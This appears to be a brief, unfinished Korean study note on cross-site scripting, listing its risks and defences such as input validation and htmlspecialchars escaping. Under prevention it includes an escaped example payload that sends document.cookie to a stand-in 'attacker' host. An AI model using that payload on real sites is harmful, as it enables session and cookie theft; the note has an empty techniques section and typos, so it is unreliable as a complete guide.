 # Cross Site Scripting

## intro
외부 사용자가 사이트에 스크립트를 삽입하여 공격하는 방법.

## 기법


## 위험요소
1. 쿠키 정보 및 세션 ID 획득
2. 관리자 권한 획득
3. 악성코드 다운로드 유도
4. 거짓 페이지 놏ㄹ

## 방지법
1. 입력값 검증
2. htmlentitiess 사용
```
&lt;script&gt;document.write('img src=&quot;http://attacker.php?data='+escape(document.cookie)+'&quot; /&gt;')&lt;/script&gt;
```

```html
<?=htmlspecialchars(mysql_result($result,0,1))?>
```
3. 입력 필터
- 

https://kevinthegrey.tistory.com/36
